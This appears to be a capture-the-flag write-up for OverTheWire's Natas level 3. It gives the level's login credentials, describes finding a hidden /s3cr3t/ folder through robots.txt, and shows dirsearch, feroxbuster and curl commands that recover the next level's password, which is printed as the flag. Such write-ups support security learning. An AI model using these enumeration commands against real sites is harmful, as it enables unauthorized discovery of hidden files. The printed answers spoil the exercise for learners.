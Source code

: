# soal
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org

# solve
- login with cred natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
- if you check the web you won't find a directory listing because the directory listing isn't there
- u can check robots.txt first because show the allow and disallow path user agent
- and Here I found the folder that was allowed, namely /s3cr3t/
  - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt # natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ 
- or use the tool bruteforce directory
```bash
echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64 # make the base64 for authentication

dirsearch -u natas3.natas.labs.overthewire.org -e txt,html -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

feroxbuster -u http://natas3.natas.labs.overthewire.org -x .txt,.html -H "Authorization: Basic $(echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64)"
# 200      GET        1l        1w       40c http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
# 200      GET        2l        4w       33c http://natas3.natas.labs.overthewire.org/robots.txt
```

- after u found the directory and the file u can curl the flag
```bash
curl http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```

# flag
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ